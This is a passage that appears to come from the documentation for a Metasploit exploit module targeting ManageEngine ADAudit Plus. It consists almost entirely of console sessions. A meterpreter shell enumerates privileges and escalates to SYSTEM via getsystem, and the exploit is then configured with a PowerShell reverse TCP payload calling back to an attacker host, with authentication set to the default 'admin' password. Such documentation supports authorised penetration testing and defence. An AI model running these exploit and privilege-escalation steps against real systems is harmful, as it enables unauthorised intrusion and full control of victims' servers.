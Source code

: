 ```
Server username: DAFOREST\Administrator
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeDelegateSessionUserImpersonatePrivilege
SeEnableDelegationPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeMachineAccountPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

### ManageEngine ADAudit Plus build 7005 running on Windows Server 2022 - Powershell Payload

```
msf6 > use exploit/windows/http/manageengine_adaudit_plus_authenticated_rce
[*] Using configured payload cmd/windows/powershell_reverse_tcp
msf6 exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > set RHOST 192.168.204.136
RHOST => 192.168.204.136
msf6 exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > set LHOST 192.168.204.128
LHOST => 192.168.204.128
msf6 exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > show options

Module options (exploit/windows/http/manageengine_adaudit_plus_authenticated_rce):

   Name         Current Setting             Required  Description
   ----         ---------------             --------  -----------
   AUTH_DOMAIN  ADAuditPlus Authentication  yes       ADAudit Plus authentication domain (default is ADAuditPlus Authentication)
   PASSWORD     admin                       yes       Password to authenticate with
   Proxies                                  no        A proxy chain of format type:host:port[,type:host:port][...]
```